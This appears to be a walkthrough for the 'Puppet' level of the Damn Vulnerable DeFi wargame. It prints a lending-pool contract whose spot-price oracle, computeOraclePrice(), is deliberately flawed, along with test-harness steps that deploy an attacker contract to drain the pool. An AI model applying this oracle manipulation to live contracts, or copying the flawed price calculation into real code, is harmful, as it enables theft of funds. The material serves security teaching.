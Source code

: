 # Puppet

**HINT:** Look at the function ```computeOraclePrice()``` and how it calculates the price.

<details>
<summary>Part 1</summary>
<p>

Because it calculates the price wrong we can manipulate it with a few steps 
```
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/math/SafeMath.sol";
import "../DamnValuableToken.sol";

contract PuppetPool is ReentrancyGuard {
    using SafeMath for uint256;
    using Address for address payable;

    address public uniswapOracle;
    mapping(address => uint256) public deposits;
    DamnValuableToken public token;
    
    constructor (address tokenAddress, address uniswapOracleAddress) public {
        token = DamnValuableToken(tokenAddress);
        uniswapOracle = uniswapOracleAddress;
    }

    // Allows borrowing `borrowAmount` of tokens by first depositing two times their value in ETH
    function borrow(uint256 borrowAmount) public payable nonReentrant {
        uint256 amountToDeposit = msg.value;

        uint256 tokenPriceInWei = computeOraclePrice();
        uint256 depositRequired = borrowAmount.mul(tokenPriceInWei) * 2;
        
        require(amountToDeposit >= depositRequired, "Not depositing enough collateral");
        if (amountToDeposit > depositRequired) {
            uint256 amountToReturn = amountToDeposit - depositRequired;
            amountToDeposit -= amountToReturn;
            msg.sender.sendValue(amountToReturn);
        }        

        deposits[msg.sender] += amountToDeposit;

        // Fails if the pool doesn't have enough tokens in liquidity
        require(token.transfer(msg.sender, borrowAmount), "Transfer failed");
    }

    function computeOraclePrice() public view returns (uint256) {
        return uniswapOracle.balance.div(token.balanceOf(uniswapOracle));
    }
}
```

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Now go to ```puppet.challenge.js``` and at the top of the file add:
```js
const PuppetAttacker = contract.fromArtifact("PuppetAttacker");
```
And at ```Exploit``` add:
```js
 this.attacker = await PuppetAttacker.new(
      this.token.address,
      this.lendingPool.address,
      this.uniswapExchange.address,
      { from: attacker }
    );

    await this.token.transfer(this.attacker.address, ATTACKER_INITAL_TOKEN_BALANCE, {
      from: attacker,
    });
    await this.attacker.attack(ether(`0.1`).toString(), { from: attacker });
  });
```

```sh
npm run puppet.challenge.js
```

</p>
</details>